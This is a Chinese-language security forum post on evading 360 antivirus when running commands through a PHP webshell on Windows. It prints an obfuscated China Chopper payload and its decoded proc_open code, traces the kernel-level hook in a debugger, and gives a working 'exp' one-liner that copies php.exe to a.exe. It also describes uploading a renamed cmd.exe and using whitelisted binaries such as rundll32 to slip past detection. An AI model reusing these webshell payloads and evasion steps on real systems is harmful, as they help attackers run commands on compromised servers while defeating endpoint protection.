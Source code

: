 最近看到一篇文章讲的是在php环境下绕过360执行命令

早前这个也被这个问题困扰了很久也没有个正经的解决办法，用蚁剑的ascmd命令也不是很好用，后面就没看了

结果看到这篇文章于是又想再试试，当然首先还要感谢作者大大给的灵感，文章地址会放在结尾

其实这篇文章没有什么顺序，就是记录一下本人一路各种试下来的结果

0x01 前言
=======

仔细看文章会发现作者使用的是菜刀，拦截的是程序

我使用的是蚁剑，拦截的是cmd

那就要从蚁剑和菜刀的流量包入手了

![1.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-46eb37e19a874c1a38de83494c0e9338e8663357.png)

0x02 流量分析
=========

蚁剑的流量包已经分析过了就不分析了..在之前的文章里面有写

流量中找了一下这是蚁剑完整执行的命令

```cmd
cmd /c "cd /d "C:/phpstudy_pro/WWW"&蚁剑shell接收的命令&echo 844fa65177&cd&echo b9efda2bfbc"
```

后面的echo不用管只是蚁剑用来定位输出用的

蚁剑这里用的是cmd /c执行命令，这是被ban的关键原因

下面去看下菜刀的流量，因为菜刀不能设置代理就要用wireshark抓一下了

```php
cmd=array_map("ass"."ert",array("ev"."Al(\"\\\$xx%3D\\\"Ba"."SE6"."4_dEc"."OdE\\\";@ev"."al(\\\$xx('QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtpZihQSFBfVkVSU0lPTjwnNS4zLjAnKXtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO307ZWNobygiWEBZIik7JG09Z2V0X21hZ2ljX3F1b3Rlc19ncGMoKTskcD0nY21kJzskcz0nY2QgL2QgQzpcXHBocHN0dWR5X3Byb1xcV1dXXFwmbm90ZXBhZCZlY2hvIFtTXSZjZCZlY2hvIFtFXSc7JGQ9ZGlybmFtZSgkX1NFUlZFUlsiU0NSSVBUX0ZJTEVOQU1FIl0pOyRjPXN1YnN0cigkZCwwLDEpPT0iLyI%2FIi1jIFwieyRzfVwiIjoiL2MgXCJ7JHN9XCIiOyRyPSJ7JHB9IHskY30iOyRhcnJheT1hcnJheShhcnJheSgicGlwZSIsInIiKSxhcnJheSgicGlwZSIsInciKSxhcnJheSgicGlwZSIsInciKSk7JGZwPXByb2Nfb3Blbigkci4iIDI%2BJjEiLCRhcnJheSwkcGlwZXMpOyRyZXQ9c3RyZWFtX2dldF9jb250ZW50cygkcGlwZXNbMV0pO3Byb2NfY2xvc2UoJGZwKTtwcmludCAkcmV0OztlY2hvKCJYQFkiKTtkaWUoKTs%3D'));\");"));
```

然后base64解码一下

```php
@ini_set("display_errors", "0");
@set_time_limit(0);
if (PHP_VERSION < '5.3.0') {
    @set_magic_quotes_runtime(0);
};
echo ("X@Y");
$m = get_magic_quotes_gpc();
$p = 'cmd';
$s = 'cd /d C:\\phpstudy_pro\\WWW\\&notepad&echo [S]&cd&echo [E]';
$d = dirname($_SERVER["SCRIPT_FILENAME"]);
$c = substr($d, 0, 1) == "/" ? "-c \"{$s}\"" : "/c \"{$s}\"";
$r = "{$p} {$c}";
$array = array(
    array(
        "pipe",
        "r"
    ) ,
    array(
        "pipe",
        "w"
    ) ,
    array(
        "pipe",
        "w"
    )
);
$fp = proc_open($r . " 2>&1", $array, $pipes);
$ret = stream_get_contents($pipes[1]);
proc_close($fp);
print $ret;;
echo ("X@Y");
die();
```

执行的命令是这样的

```cmd
cmd /c "cd /d C:\phpstudy_pro\WWW\&菜刀shell接收的命令&echo [S]&cd&echo [E]
```

？怎么差不多？感觉蚁剑就是多了几种执行命令的方式

然后又测试了一下发现一个问题

蚁剑执行完之后再用菜刀执行 拦截

直接用菜刀执行 不拦截

？？？

思索了一下想起来蚁剑的请求头在不设置的情况是有很明显的特征的

然后看了一下好像最新的蚁剑已经没这个特征了，好吧那再来观察一下别的

先打开进程管理器然后用菜刀执行命令，可以看到php-cgi创建了一个cmd就被拦截了，拦截提示显示的拦截的是cmd，这里顺便说一下第一个cmd是肯定可以创建成功的，因为php的system函数就是调用cmd /c执行命令的，后面可以会在dbg中看到

![2.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-ec0bfa6014ee8c88e739e27768db80b0816f2251.png)

然后用蚁剑执行相同命令

![3.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-5b7b01c69e54dacd6d1a99ed2b020b30d9c193d8.png)  
可以看到蚁剑是第二个cmd已经创建出来在执行命令的时候被拦截了

那猜测360可能有的检测

1. 检测流量，流量中出现一些奇怪的东西直接拦截
2. 检测windowsapi，调用的时候出现一些奇怪的参数就拦截

那流量就不说了，大佬们应该有无数方法混淆,360对流量的查杀也不是很严格，甚至手动都可以执行

第二种windowsapi，windows常见的创建进程就是CreateProcess

这里说一下phpstudy创建进程32位是CreateProcessA，64位CreateProcessW

去dbg里面调试看一下

0x03 进程调试
=========

因为cmd是php-cgi创建出来的，所以把dbg附加到php-cgi上

![4.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-e2d671dc135714f354a968b6d8fb1b1c3f496aec.png)

断到了，也可以看到右上角的命令行，这里可以知道system函数也是使用cmd /c执行系统命令的

用蚁剑执行命令然后跟一下看看能不能是不是因为Hook了所以不能执行命令的

跟着跟着就到ntdll去了，走到NtResumeThread然后到内核里去了

![5.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-9519feae7d1724e2fab330d1b12b92c4f6685fdc.png)

可以看到到CALL之后就弹框了，这里不用管这个函数有什么作用，R0的Hook用R3应该是很难解决的

这里再说一下64位的拦截的NtCreateUserProcess这个函数，也是到syscall拦住了，这里就不贴图了

0x04 无端猜想
=========

不管是NtResumeThread还是NtResumeThread肯定都是常用的api要调用到的底层函数，那360到底是怎么知道哪个进程要拦截？会不会是通过进程名？

本来想到PEB里面去改的，但是太懒了，想在外面重命名试试，但是php-cgi好像不能直接执行命令，直接用php.exe试试

```cmd
php -r "system('cmd /c notepad')";
```

![6.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-2cc55f3432b7d103ba6215d5c9509822f31b91e1.png)

没想到这个也拦截了，那可以重命名试一下

![7.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-16cd76779b3552016625d2b8352dc4c6b844e927.png)

改成a.exe之后可以执行了，只要打通一次后面直接用php.exe也不会拦截了

那步骤就是先把php.exe复制出来改名为a.exe执行一次cmd后就不会被拦截了

exp:

```php
cmd=chdir(php路径);copy("php.exe","a.exe");system("a -r \"system(\\\"cmd /c tasklist\\\");\";");
```

只要在webshell先手动执行这段php就不会被拦截了

注意转义..好坑

![1.gif](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-f81d772f3fea3030b5e7ae5055e6f99c9a43ccf9.gif)

差不多就是这样了

再来个极端点的情况，打的时候管理员在线，管理员看到老是弹框直接点了不再提醒

这时候这种方法也会执行不了，但是问题不大，你可以从windows7上下载cmd然后传到php的目录再重命名后再执行

```cmd
biesha /c tasklist
```

也是可以bypass的，这里就不截图了，太懒了

0x05 总结
=======

还有一点会直接拦截进程，这在原文中也有说到过，绕过这个的就很多了像原文作者说的白名单啥的，rundll32.exe也可以，网上搜搜白名单还是挺多的就不写了

其实这里想到改文件名也是碰巧，之前提权到system的文件名是SYSTYEM\_CMD，拿上次测试，直接用php执行结果360直接报了拦截CMD，这时候就有点奇怪了，明明没有调用CMD，然后就想到了可能是文件名的问题。

总的来说就多猜猜吧说不定就绕过了

0x06 参考
=======

<https://mp.weixin.qq.com/s/V4jKcz9TtucaKfkmEKGdZw>